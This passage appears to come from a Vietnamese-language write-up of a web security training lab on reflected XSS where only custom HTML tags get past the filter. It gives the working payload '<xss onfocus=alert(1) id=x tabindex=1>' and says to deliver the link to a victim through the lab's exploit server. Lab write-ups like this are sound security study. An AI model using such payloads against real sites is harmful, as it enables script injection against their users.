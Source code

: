![Untitled](writeup_media/Untitled%2050.png)

---

### ****Reflected XSS into HTML context with all tags blocked except custom ones****

Ở lab này custom tag không bị filtered ra → dùng payload

```html
<xss onfocus=alert(1) id=x tabindex=1>
```

Copy link payload, vào exploit server và gửi cho victim để solve lab

![Untitled](writeup_media/Untitled%2051.png)

---